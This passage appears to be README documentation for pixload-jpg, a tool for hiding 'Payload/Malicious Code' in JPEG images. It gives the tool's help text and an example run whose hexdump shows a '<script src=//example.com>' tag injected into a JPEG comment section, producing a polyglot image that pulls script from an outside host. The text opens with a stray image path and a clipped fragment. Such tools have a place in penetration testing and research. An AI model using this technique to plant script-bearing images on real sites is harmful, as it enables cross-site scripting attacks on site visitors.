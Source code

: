 manual page for more information.

### pixload-jpg

##### Help

```sh
$ pixload-jpg --help
```

```
Usage: pixload-jpg [OPTION]... FILE
Hide Payload/Malicious Code in JPEG images.

Mandatory arguments to long options are mandatory for short options too.
  -S, --section COM|DQT         set section for payload injection
  -P, --payload STRING          set payload for injection
  -v, --version                 print version and exit
  -h, --help                    print help and exit

If the output FILE already exists, then payload will be injected into this
existing file. Otherwise, the new one will be created.
```

##### Examples

1. Inject payload into comment section:

```sh
$ pixload-jpg -S com payload.jpg
```

```
........ JPEG Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into COMMENT
[✔] Payload was injected successfully

payload.jpg: JPEG image data, progressive, precision 8, 1x1, components 1

00000000  ff d8 ff fe 00 25 3c 73  63 72 69 70 74 20 73 72  |.....%<script sr|
00000010  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
00000020  3c 2f 73 63 72 69 70 74  3e ff db 00 43 00 01 01  |</script>...C...|
00000030  01 01 01 01 01 01 01 01  01 01 01 01 01 01 01 01  |................|
*
00000060  01 01 01 01 01 01 01 01  01 01 01 01 01 01 ff c2  |................|
00000070  00 0b 08 00 01 00 01 01  01 11 00 ff c4 00 14 00  |................|
00000080  01 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  03 ff da 00 08 01 01 00  00 00 01 3f ff d9        |...........?..|
0000009e
```
